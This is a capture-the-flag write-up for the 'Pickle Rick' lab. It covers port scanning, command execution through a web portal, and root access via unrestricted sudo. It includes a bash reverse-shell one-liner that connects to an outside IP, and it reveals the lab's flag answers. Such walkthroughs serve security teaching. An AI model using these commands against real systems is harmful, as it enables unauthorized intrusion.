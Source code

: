 # Pickle Rick

+ What is the first ingredient that Rick needs?`mr. meeseek hair`
+ What is the second ingredient in Rick’s potion?
+ What is the last and final ingredient?

### RECON
- Using nmap to scan open port `nmap -sC -sV -sT 10.10.147.153 > nmap_log`
- Using inspect element 
    ```html
    <!--
        Note to self, remember username!
        Username: R1ckRul3s
    -->
    ```
- Checking `robots.txt` return `Wubbalubbadubdub`
- Using Go buster found
    ```bash
    /.php                 (Status: 403) [Size: 292]
    /index.html           (Status: 200) [Size: 1062]
    /.html                (Status: 403) [Size: 293]
    /login.php            (Status: 200) [Size: 882]
    /assets               (Status: 301) [Size: 315] [--> http://10.10.147.153/assets/]
    /portal.php           (Status: 302) [Size: 0] [--> /login.php]
    ```

### EXPLOIT
- Using url `http://10.10.147.153/portal.php` we can run command
- `ls` command return 
    ```
    total 40
    drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
    drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
    -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
    drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
    -rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
    -rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
    -rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
    -rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
    -rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
    -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
    ```
- Using command `grep "" *.txt`
    ```
    Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
    clue.txt:Look around the file system for the other ingredient.
    robots.txt:Wubbalubbadubdub
    ```
- Using Bash RevShell `/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/1337 0>&1"` listen to port 1337 to get reverse shell
- Search home folder
    ```bash
    www-data@ip-10-10-147-153:/home/rick$ cat second\ ingredients 
    1 jerry tear
    ```

### PRIVILEDGE ESCALATION
- Upload `linpeas.sh` to `/dev/shm`
    ```bash
    ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
    ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
    Matching Defaults entries for www-data on ip-10-10-147-153.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-147-153.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL

    www-data@ip-10-10-147-153:/dev/shm$ sudo su
    root@ip-10-10-147-153:/dev/shm# cd /root
    root@ip-10-10-147-153:~# ls
    3rd.txt  snap
    root@ip-10-10-147-153:~# cat 3rd.txt 
    3rd ingredients: fleeb juice
    ```